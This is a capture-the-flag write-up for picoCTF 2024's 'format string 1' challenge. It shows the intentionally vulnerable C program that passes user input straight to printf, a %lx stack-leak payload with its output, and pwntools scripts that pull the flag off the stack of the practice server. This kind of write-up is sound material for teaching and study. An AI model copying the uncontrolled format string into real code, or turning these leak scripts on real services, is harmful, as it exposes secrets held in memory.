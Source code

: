 # format string 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: SYREAL

Description:
Patrick and Sponge Bob were really happy with those orders you made for them, but now 
they're curious about the secret menu. Find it, and along the way, maybe you'll find 
something else of interest!

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 60865
 
Hints:
1. https://lettieri.iet.unipi.it/hacking/format-strings.pdf
2. Just try out the different options
```
Challenge link: [https://play.picoctf.org/practice/challenge/434](https://play.picoctf.org/practice/challenge/434)

## Solution

### Analyse the C file

We start by analysing the C source code.
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
The program will:
- Open and read the `secret-menu-item-1.txt` file (64 bytes) into memory
- Open and read the `flag.txt` file (64 bytes) into memory
- Open and read the `secret-menu-item-2.txt` file (64 bytes) into memory
- Ask as for our order and read our answer (1024 characters) with `scanf` 
- Print the order with a `printf` statement WITHOUT any format specifier(s)

We can read data from the stack, for example 64-bit integers shown in hex-format with the `%lx` format specifier or we can read and print the N:th integer with the form `%N$lx`. This can be done manually or semi-automated.

### Get the flag offset

The offset can be found manually by inputting a long string of items of the form `<offset>:%lx<delimiter>`.  
Here I have used dots (`.`) as delimiter.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ./format-string-1                                
Give me your order and I'll read it back to you:
1:%lx.2:%lx.3:%lx.4:%lx.5:%lx.6:%lx.7:%lx.8:%lx.9:%lx.10:%lx.11:%lx.12:%lx.13:%lx.14:%lx.15:%lx.16:%lx.17:%lx.18:%lx.19:%lx.20:%lx.
Here's your order: 1:7ffd81524750.2:0.3:0.4:a.5:400.6:6d20746572636553.7:6d65746920756e65.8:a322320.9:7f6580102ab0.10:7ffd00000000.11:7ffd81524978.12:0.13:7ffd81524980.14:7b4654436f636970.15:616c665f656b6166.16:a7d67.17:0.18:0.19:7f65800f8817.20:7f6580103648.
Bye!
```
Offset 14 looks promising and is indeed the ASCII-version of the start of the flag (in reverse order due to endianness).
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ echo '7b4654436f636970' | xxd -r -p | rev
picoCTF{  
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
FLAG_START = 'picoCTF{'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"Trying offset {i}\n")
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        if (res_le == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/find_offset.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
Found start of flag (picoCTF{) with little endian at offset 14  
```
Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
We confirm that the flag starts at offset 14.

### Get the flag

Now that we know at which offset the flag start we can modify the script to extract the entire flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
offset = 14

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        res_le = p64(int(out, 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```

Finally, run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/get_flag.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
b'picoCTF{<REDACTED>}\x00'
```

For additional information, please see the references below.

## References

- [Format Strings](https://lettieri.iet.unipi.it/hacking/format-strings.pdf)
- [freeCodeCamp - Format Specifiers in C](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [rev - Linux manual page](https://man7.org/linux/man-pages/man1/rev.1.html)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
- [Wikipedia - ASCII](https://en.wikipedia.org/wiki/ASCII)
- [Wikipedia - Endianness](https://en.wikipedia.org/wiki/Endianness)
- [Wikipedia - Stack-based memory allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
